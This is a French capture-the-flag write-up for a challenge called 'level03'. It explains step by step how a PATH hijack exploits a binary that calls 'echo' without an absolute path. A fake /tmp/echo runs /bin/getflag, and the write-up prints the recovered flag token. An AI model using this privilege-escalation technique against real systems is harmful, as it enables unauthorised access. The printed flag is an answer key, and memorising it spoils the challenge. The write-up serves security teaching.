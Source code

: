 # Level 03

## Étapes pour résoudre le challenge

1. **Identification et copie du fichier :**
   
   On commence par identifier le fichier `level03` qui est un exécutable. Pour faciliter l'analyse, nous le copions sur notre machine locale.

   ```bash
   scp -P 4242 level03@localhost:~/level03 .
   ```

2. **Examen du fichier :**

   Pour avoir une première idée du contenu du fichier, on utilise la commande `cat` :

   ```bash
   cat level03
   ```

   On y trouve une ligne intéressante :
   
   ```
   /usr/bin/env echo Exploit me
   ```

3. **Exécution du fichier :**

   Pour comprendre ce que fait le fichier, nous l'exécutons :

   ```bash
   ./level03
   ```

   Résultat :
   
   ```
   Exploit me
   ```

4. **Analyse et exploitation :**

   Le fichier exécute la commande `echo` sans utiliser de chemin absolu. Cela signifie que nous pouvons exploiter ce comportement en modifiant notre `PATH` pour que notre propre commande `echo` soit utilisée à la place.

5. **Création d'un fichier `echo` :**

   Nous créons un fichier nommé `echo` dans le répertoire `/tmp` qui contiendra une commande pour obtenir le flag.

   ```bash
   echo "/bin/getflag" > /tmp/echo
   ```

6. **Rendre le fichier exécutable :**

   Nous devons rendre ce fichier exécutable :

   ```bash
   chmod +x /tmp/echo
   ```

7. **Modifier le `PATH` :**

   Nous modifions le `PATH` pour que le répertoire `/tmp` soit recherché en premier lors de l'exécution des commandes :

   ```bash
   export PATH=/tmp:$PATH
   ```

8. **Exécution du fichier `level03` :**

   Enfin, nous exécutons de nouveau le fichier `level03` :

   ```bash
   ./level03
   ```

   Résultat :

   ```
   Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
   ```

## Résumé

Pour résoudre ce challenge, nous avons exploité la façon dont le fichier `level03` appelle la commande `echo` sans chemin absolu. En créant notre propre script `echo` dans le répertoire `/tmp` qui exécute `/bin/getflag`, et en modifiant le `PATH`, nous avons réussi à obtenir le flag.

Le flag pour `level03` est : `qi0maab88jeaj46qoumi7maus`.

